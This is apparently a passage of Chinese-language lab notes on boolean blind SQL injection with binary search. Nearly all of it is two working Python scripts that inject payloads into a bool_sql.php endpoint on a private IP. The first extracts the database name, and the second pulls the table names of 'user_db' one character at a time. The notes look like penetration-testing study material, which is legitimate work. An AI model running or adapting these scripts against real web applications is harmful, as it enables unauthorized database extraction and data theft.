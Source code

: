 使用substr()

![image-20250916104714800](assets/image-20250916104714800.png)

## 布尔盲注——二分法

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((database()),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
    if high <= 32:
        break
```

user_db 

```py
import requests
url = 'http://10.3.4.95/bool_sql.php?id='
res = ""
sign = 0
for i in range(1, 100):
    low = 32
    high = 127
    middle = (low + high) // 2
    while high > low:
        payload = f"1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'user_db'),{i},1))>{middle}%23"
        # print(payload)
        r = requests.get(url + payload)
        if 'success' in r.text:
            low = middle + 1
        else:
            high = middle
        middle = (low + high) // 2
    res += chr(middle)
    print(res)
```